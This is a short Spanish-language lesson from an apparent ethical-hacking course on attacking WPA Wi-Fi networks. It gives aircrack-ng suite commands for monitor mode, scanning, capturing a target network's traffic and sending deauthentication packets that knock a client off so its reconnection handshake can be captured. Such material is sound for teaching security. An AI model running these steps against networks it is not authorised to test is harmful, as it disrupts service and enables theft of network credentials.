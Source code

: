 # FCEH_Unidad 24: Hacking Etico en Redes Wifi WPA

Repetimos los pasos anteriores hasta matar los procesos de la tarjeta de red para ponerla en modo monitor. 

Cuando nos de problemas debemos buscar los drivers del chipset para ponerla en modo monitor.

Para matar todos los procesos de una sola vez ponemos 

```bahs
airmong-ng check kill
```
hacemos el iwconfig para comprobar

buscamos las redes disponibles con 

```bash
airodump-ng wlan0mon
```
Así empieza a escuchar, y empieza a buscar los puntos de acceso. 

En otra terminal ponemos;
```bash
airodump-ng wlan0mon -w <ESSID de la red> -c <nº de canal>
```

De esta forma vamos capturando los *data* que se están enviando y donde salen datos sobre la clave de la wifi.

Lo que vamos a hacer con el siguiente comando es enviar paquetes para que se desconecte la wifi a atacar, de forma que la persona vuelva a identificarse en la red. Para ello usamos el siguiente comando:

```bash
aireplay-ng -0 10 -a <BSSID de la red a desconectar> -c <MAC de la estación a desconectar> wlan0mon
```
Con -0 decimos q es para desconectar y con 10 los paquetes que enviamos


si diese error poner el canal por el que está la wifi

```bash
iwconfig wlan0mon channel 
```

